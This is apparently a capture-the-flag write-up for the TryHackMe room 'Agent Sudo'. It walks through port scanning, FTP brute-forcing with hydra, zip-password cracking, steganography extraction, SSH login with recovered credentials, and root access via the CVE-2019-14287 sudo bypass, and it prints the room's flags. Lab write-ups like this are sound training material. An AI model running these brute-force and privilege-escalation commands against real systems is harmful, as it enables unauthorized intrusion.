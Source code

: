 # Agent Sudo

![Logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5f59219d-e80c-4ab9-a2b5-b67ded75b5e3)

## Enumeration

Let's enumerate the machine with nmap :

```bash
nmap -sT -sV 10.10.52.49
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e056fada-cec3-472c-92f8-e78987ef27cd)

we browse to web server on port `80` :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/810ff7da-99a0-4ae6-aa56-6c7adaeeb214)

we see that the page needs user-agent to access the site and `R` is agent that wrote this message.

we can infere that other agents codenames are like this, try accessing the website with curl command and user agent.

if we set user-agent to `A` or `B` nothing happens, but setting user-agent as `C` will show a different message :

```bash
curl http://10.10.52.49/ -H 'user-agent: C' -L
```

`-L` is for following redirects :

![userAgent](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/403f2967-e34f-46b2-b077-1c49946d7b38)

we can see this is a message to user `chris`, so we can brute force the ftp login with this user :

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.52.49 ftp -v
```

yes, hydra finds the password :

![hydra](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/55dcb21c-d77f-4cf5-8a5f-40184a691fc8)

login to ftp server with this credential : `chris:crystal` and use `dir` to show the content, download all the files there.

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/49494c20-cb95-4718-ba24-4b397c081e5c)

cat the content of `To_agentJ.txt` file :

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

so we find out that the login password is in the fake picture, let's examin the pictures :

we start by examining `cutie.png`

```bash
binwalk -e cutie.png --run-as=root
```

there is a zip file inside and it is password protected.

use `zip2john` to brute force the password :

```bash
zip2john cutie.png > hash.txt
```

and the use `john` :

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![zipPass](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fa83858b-c463-48c3-adff-0af0763b04bc)

use this password to open the zip file :

```bash
7za x 8702.zip
```

and open the `To_agentR.txt` :

```text
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

the string `QXJlYTUx` is a base64 encoded so we need to decode it :

```bash
echo -n 'QXJlYTUx' | base64 -d

Area51
```

Let's examin the `cute-alien.jpg` picture :

```bash
steghide info cute-alien.jpg
```

it needs a password, use `Area51` password which we found in the zip file of `cutie.png` :

```bash
steghide extract -sf cute-alien.jpg
```

there is a file call `message.txt` inside, open it :

```text
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

from this message we understand that the password of user `james` is `hackerrules!`

yes we can now ssh to machine with these credentials `james:hackerrules!`

now, cat the user.txt file here :

```bash
cat user_flag.txt

b03d975e8c92a7c04146cfa7a5a313c7
```

and download the `Alien_autospy.jpg` file to your machine using scp :

```bash
scp james@10.10.52.49:Alien_autospy.jpg /root
```

for the question `What is the incident of the photo called?` is used the hint and then used this google dork :

```text
Alien autospy site:foxnews.com
```

and the first link gives you the anwer `Roswell alien autopsy`.

## Privilege Escalation

use `sudo -l` to see if any sudo permissions is set for user james :

```bash
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

emmmm!!, now we can not use /bin/bash as root but wait, this is suspicious, lets check the sudo version with `sudo -V` :

```bash
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

just search for the vulnerabilities of this version in exploit db or google search the `(ALL, !root) /bin/bash` exploits :

you will find the `CVE-2019-14287` for this sudo version and the exploit is :

```bash
sudo -u#-1 /bin/bash
```

![exploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/4ef94669-139d-42b8-8586-69dfe2f2ff4e)

cat the content of `/root/root.txt` :

```text
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

and with the above text we see that Agent R is Deskel.
